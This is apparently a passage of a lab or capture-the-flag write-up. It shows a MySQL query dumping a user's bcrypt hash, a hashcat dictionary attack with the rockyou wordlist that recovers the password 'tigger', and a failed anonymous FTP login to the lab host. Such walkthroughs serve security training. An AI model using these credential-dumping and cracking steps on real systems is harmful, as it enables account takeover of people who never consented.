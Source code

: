 ```bash
| id         | int          | NO   | PRI | NULL              | auto_increment    |
| username   | varchar(50)  | NO   | UNI | NULL              |                   |
| password   | varchar(255) | NO   |     | NULL              |                   |
| created_at | datetime     | YES  |     | CURRENT_TIMESTAMP | DEFAULT_GENERATED |
+------------+--------------+------+-----+-------------------+-------------------+
4 rows in set (0.01 sec)

mysql> select username, password from users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| Adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we |
+----------+--------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> 
```

```bash
:~/Brute# hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt -o hashadrian
...
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSY...SKn4we
Time.Started.....: Sun Jul 13 05:24:08 2025 (1 sec)
Time.Estimated...: Sun Jul 13 05:24:09 2025 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       22 H/s (11.24ms) @ Accel:2 Loops:64 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 28/14344384 (0.00%)
Rejected.........: 0/28 (0.00%)
Restore.Point....: 24/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:960-1024
Candidates.#1....: tigger -> password1
:~/Brute# hashcat -m 3200 -a 0 hash --show
:~/Brute# $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we:tigger
```

<img width="1118" height="227" alt="image" src="https://github.com/user-attachments/assets/54a9f3ea-312f-48b6-8f16-5bf033968603" />

<img width="1105" height="215" alt="image" src="https://github.com/user-attachments/assets/48dca7ee-42be-4d5f-94f6-29b357ddb1c3" />

<img width="1128" height="266" alt="image" src="https://github.com/user-attachments/assets/1f84cb89-80c6-48c4-865f-dac2023c300f" />

```bash
ftp 10.10.4.197
Connected to 10.10.4.197.
220 (vsFTPd 3.0.5)
Name (10.10.4.197:root): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
```
